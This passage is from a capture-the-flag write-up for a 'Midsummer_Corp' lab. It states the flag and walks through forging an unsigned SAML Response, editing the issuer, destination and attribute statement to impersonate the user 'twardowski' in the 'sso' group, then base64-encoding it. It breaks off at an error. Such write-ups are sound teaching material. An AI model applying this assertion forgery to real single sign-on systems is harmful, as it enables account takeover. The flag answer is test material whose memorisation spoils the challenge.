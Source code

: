 ```IdP authenticates you and creates an SAML assertion (a document containing information about you, like first name, last name, email, etc.)```

Answer format: `**************{************************************}`

Answer: `Midsummer_Corp{Look_f0r_th3_fern_w1th_silv3r_l3av3s}`

From [twardowski_sso_config.msg.txt](./twardowski_sso_config.msg.txt) file we know, that we have to craft SAML Response. From previous steps we know, that issuer will be `http://idp.midsummer.corp` and destination will be `http://files.midsummer.corp.local/apps/user_saml/saml/acs`, but instead of `files.midsummer.corp.local` we shoud use `MACHINE_IP`. This might be not obvious, but we can find out using metadata - explained later in [Wrong paths](#wrong-paths).

To make our own SAML Response we need to know how it looks. I used [this](https://www.samltool.com/generic_sso_res.php) site to get example response. We need to change issuer in two places from `http://idp.example.com/metadata.php` to `http://idp.midsummer.corp` and `http://sp.example.com/demo1/index.php?acs` to `http://MACHINE_IP/apps/user_saml/saml/acs` in two places (destination and recipent). 

[twardowski_sso_config.msg.txt](./twardowski_sso_config.msg.txt) file says, that `Application is matching "alias" with username and "role" attribute with group membership. I have restricted SSO usage to "sso" group until the configuration is finished and currenlty only my account is in this group.`, so atribute statements should be changed from:

```xml
<saml:AttributeStatement>
    <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
    </saml:Attribute>
    <saml:Attribute Name="mail" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test@example.com</saml:AttributeValue>
    </saml:Attribute>
    <saml:Attribute Name="eduPersonAffiliation" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">users</saml:AttributeValue>
    <saml:AttributeValue xsi:type="xs:string">examplerole1</saml:AttributeValue>
    </saml:Attribute>
</saml:AttributeStatement>
```

To:

```xml
<saml:AttributeStatement>
    <saml:Attribute Name="alias" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">twardowski</saml:AttributeValue>
    </saml:Attribute>
    <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">sso</saml:AttributeValue>
    </saml:Attribute>
</saml:AttributeStatement>
```

Before response is sent under `SAMLResponse` key it needs to be encoded in base64. I used [base64encode.org](https://www.base64encode.org/) for it. Previous user needs to be logged, so we can do it via website or clear all cookies. Unfortunately it's not enough and we get following error:
